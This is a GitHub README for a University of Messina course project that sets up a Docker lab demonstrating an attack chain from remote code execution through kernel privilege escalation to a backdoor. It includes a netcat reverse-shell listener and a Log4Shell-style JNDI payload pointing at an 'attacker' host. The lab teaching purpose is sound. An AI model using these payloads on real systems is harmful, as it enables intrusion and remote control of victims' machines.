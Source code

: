 # A Practical Demonstration of an Exploitation Chain: From Remote Code Execution to Full System Compromise

## Project Overview

This project is developed as part of the **Cybersecurity** course at the **University of Messina**.  
It presents a practical demonstration of an exploitation chain involving:

- **Remote Code Execution (RCE)** via a vulnerable web application
- **Privilege Escalation** through kernel-level exploitation
- **Installation of a persistent backdoor** for post-exploitation access

## Requirements

- **Linux Kernel 5.8.x**  
  (Tested with `5.13.0-19`, default in Ubuntu 21.04)
  You can use `uname -r` to check your kernel version
- **Docker** and **Docker Compose**

---

##  Quick Start

### 1. Clone the Repository
```bash
git clone https://github.com/marco-giacobbe/rce-to-system-compromise.git
cd rce-to-full-compromise
```
### 2. Build and Start the Environment
```bash
docker-compose up --build
```
This will build all containers (attacker, backend, and database) and start the application

### 3. Access the Target Web
Through your browser visit:
```
http://localhost:8080/
```

### 4. Set Up the Attacker Listener
In a new terminal, open a shell inside the attacker container
```bash
docker exec -it attacker bash
```
Start a Netcat listener to wait for the reverse shell:
```bash
nc -lp 6666
```

This listen for the reverse shell triggered by the exploit.

### 5. Perform the attack via Web Interface
For example:
  - Submit the payload `${jndi:ldap://attacker:1389/Exploit}` through the vulnerable form on the frontend site.
  - Request the page `http://localhost:8080/${jndi:ldap://attacker:1389/Exploit}`
  - You can also build your own payload.
